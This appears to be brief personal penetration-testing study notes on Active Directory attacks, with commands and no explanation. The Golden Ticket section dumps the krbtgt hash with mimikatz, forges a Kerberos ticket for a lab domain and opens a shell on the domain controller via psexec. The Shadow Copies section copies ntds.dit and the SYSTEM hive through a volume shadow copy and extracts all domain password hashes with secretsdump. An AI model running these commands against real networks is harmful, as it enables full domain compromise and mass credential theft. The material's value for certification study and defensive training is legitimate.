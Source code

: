 ### Golden Ticket

krbtgt ntlm hash available on domain controller

lsadump::lsa /patch on dc will give krbtgt hash

kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

psexec \\dc1 cmd.exe

won't work with ip address

### Shadow Copies

vshadow.exe -nw -p  C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

reg.exe save hklm\system c:\system.bak

impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
